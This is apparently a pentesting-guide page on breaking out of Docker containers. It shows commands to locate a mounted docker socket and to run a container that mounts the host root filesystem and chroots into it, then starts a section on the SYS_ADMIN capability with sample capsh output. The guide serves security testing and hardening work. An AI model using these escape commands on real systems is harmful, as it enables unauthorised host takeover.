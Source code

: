 # Docker Breakout

## Mounted docker socket

If somehow you find that the **docker socket is mounted** inside the docker container, you will be able to escape from it.  
This usually happen in docker containers that for some reason need to connect to docker daemon to perform actions.

```bash
#Search the socket
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
```

In this case you can use regular docker commands to communicate with the docker daemon:

```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```

{% hint style="info" %}
In case the **docker socket is in an unexpected place** you can still communicate with it using the **`docker`** command with the parameter **`-H unix:///path/to/docker.sock`**
{% endhint %}

## SYS\_ADMIN Capability

You can check the enabled capabilities inside the docker container using:

```text
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
